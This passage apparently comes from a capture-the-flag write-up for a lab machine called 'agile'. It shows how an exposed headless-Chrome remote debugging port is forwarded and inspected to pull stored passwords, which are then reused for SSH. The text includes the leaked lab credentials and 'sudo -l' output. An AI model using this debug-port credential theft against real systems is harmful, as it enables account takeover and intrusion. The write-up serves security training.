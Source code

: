 Previously it wouldn't pass this check:

```py
if len([c for c in username if c not in string.ascii_letters + string.digits]) > 0:
```

We could bypass this check if we had creds for the test database.

# Interactive testing

There is a file `test_site_interactively.py` - it loads `creds.txt` and run headless chrome.

`--remote-debugging-port=41829`

We can forward port `:41829` and [connect to it](https://chromedevtools.github.io/devtools-protocol/).

`http://localhost:41829/json`

```json
[ {
   "description": "",
   "devtoolsFrontendUrl": "/devtools/inspector.html?ws=localhost:41829/devtools/page/B1E08518F25F81E2F2989FCFC5239CE6",
   "id": "B1E08518F25F81E2F2989FCFC5239CE6",
   "title": "SuperPassword 🦸",
   "type": "page",
   "url": "http://test.superpass.htb/",
   "webSocketDebuggerUrl": "ws://localhost:41829/devtools/page/B1E08518F25F81E2F2989FCFC5239CE6"
} ]
```

`http://localhost:9222/devtools/inspector.html?ws=localhost:9222/devtools/page/FA9969EF87352313B99368A478D00B9B`

It's an interactive view of the page. There are two passwords:

```
edwards:d07867c6267dcb5df0af
dedwards__:7dbfe676b6b564ce5718
```

# SSH as edwards

**edwards:d07867c6267dcb5df0af** works for SSH!

`sudo -l`

```
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
```
